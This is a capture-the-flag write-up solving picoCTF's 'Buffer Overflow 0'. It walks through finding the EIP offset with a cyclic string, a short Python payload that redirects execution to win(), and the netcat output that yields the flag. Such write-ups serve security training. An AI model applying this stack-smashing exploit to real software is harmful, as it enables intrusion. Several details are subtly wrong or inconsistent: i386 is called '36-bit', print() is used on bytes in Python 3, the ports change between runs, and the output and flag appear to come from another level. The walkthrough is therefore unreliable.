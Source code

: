 # Buffer Overflow 0
This was a CTF challenge using a simple BOF vulnerability to redirect a flag. 

## The Challenge
Author: Alex Fulton / Palash Oswal
Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: `nc saturn.picoctf.net 51110`

## The Solution
It is similar albeit a little easier to [this](https://github.com/stangeqwq/CTF/blob/main/UiTHack23/Mp3%20player.md). By inputting cyclic characters, we get information on the offset of `eip`. Note that depending on your computer architecture, you might need to adjust to `i386` architecture to execute the binary. 
```console
┌──(ericjoshua㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 55885                     
Please enter your string: 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqq
Okay, time to return... Fingers Crossed... Jumping to 0x6c6c6c6c
```
`0x6c6c6c6c` is `llll` in ascii which suggests an offset of `40`. To find the address of the `win()` function, you can open up `gdb` and `disassemble win`. Doing so gives you the address of `0x080491f6`. The script I used was simple:
```python
offset = 40
eip_win = b"\xF6\x91\x04\x08" #0x080491f6 (little-endian 36-bit i386)
print(b'A'*offset + eip_win)
```console
──(ericjoshua㉿kali)-[~/Downloads]
└─$ python3 exploit.py | nc saturn.picoctf.net 51110
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

The flag is `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

